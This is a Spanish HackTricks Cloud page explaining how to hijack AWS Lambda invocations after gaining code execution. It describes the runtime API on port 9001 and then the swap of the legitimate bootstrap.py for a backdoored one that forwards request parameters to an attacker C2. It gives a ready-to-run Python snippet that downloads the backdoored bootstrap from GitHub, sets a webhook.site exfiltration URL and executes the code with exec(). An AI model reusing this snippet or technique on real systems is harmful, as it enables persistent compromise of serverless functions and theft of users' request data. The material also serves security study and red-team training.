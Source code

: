 # AWS - Robar Solicitudes de Lambda

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Flujo de Lambda

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** es un proceso fuera del contenedor que **envía** **invocaciones** al proceso **init**.
2. El proceso init escucha en el puerto **9001** exponiendo algunos endpoints interesantes:
* **`/2018-06-01/runtime/invocation/next`** – obtener el próximo evento de invocación
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – devolver la respuesta del controlador para la invocación
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – devolver un error de ejecución
3. **bootstrap.py** tiene un bucle que recibe invocaciones del proceso init y llama al código de los usuarios para manejarlas (**`/next`**).
4. Finalmente, **bootstrap.py** envía la **respuesta** al init.

Ten en cuenta que bootstrap carga el código de usuario como un módulo, por lo que cualquier ejecución de código realizada por el código de los usuarios en realidad ocurre en este proceso.

## Robar Solicitudes de Lambda

El objetivo de este ataque es hacer que el código de los usuarios ejecute un proceso malicioso **`bootstrap.py`** dentro del proceso **`bootstrap.py`** que maneja la solicitud vulnerable. De esta manera, el proceso **bootstrap malicioso** comenzará a **comunicarse con el proceso init** para manejar las solicitudes mientras el **bootstrap legítimo** está **atrapado** ejecutando el malicioso, por lo que no solicitará más solicitudes al proceso init.&#x20;

Esta es una tarea sencilla de lograr, ya que el código del usuario se está ejecutando por el **`bootstrap.py`** legítimo. Por lo tanto, el atacante podría:

* **Enviar un resultado falso de la invocación actual al proceso init**, para que init piense que el proceso bootstrap está esperando más invocaciones.
* Se debe enviar una solicitud a **`/${invoke-id}/response`**&#x20;
* El invoke-id se puede obtener de la pila del **`bootstrap.py`** legítimo utilizando el módulo de python [**inspect**](https://docs.python.org/3/library/inspect.html) (como se [propone aquí](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) o simplemente solicitándolo nuevamente a **`/2018-06-01/runtime/invocation/next`** (como se [propone aquí](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Ejecutar un **`bootstrap.py`** malicioso que manejará las próximas invocaciones
* Con fines de sigilo, es posible enviar los parámetros de las invocaciones de lambda a un C2 controlado por los atacantes y luego manejar las solicitudes como de costumbre.
* Para este ataque, es suficiente obtener el código original de **`bootstrap.py`** del sistema o de [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), agregar el código malicioso y ejecutarlo desde la invocación actual de lambda.

### Pasos del Ataque

1. Encuentra una vulnerabilidad de **RCE**.
2. Genera un **bootstrap** **malicioso** (por ejemplo, [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Ejecuta** el bootstrap malicioso.

Puedes realizar fácilmente estas acciones ejecutando:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Para obtener más información, visita [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Referencias

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

<details>

<summary><strong>Aprende hacking en AWS desde cero hasta experto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si deseas ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
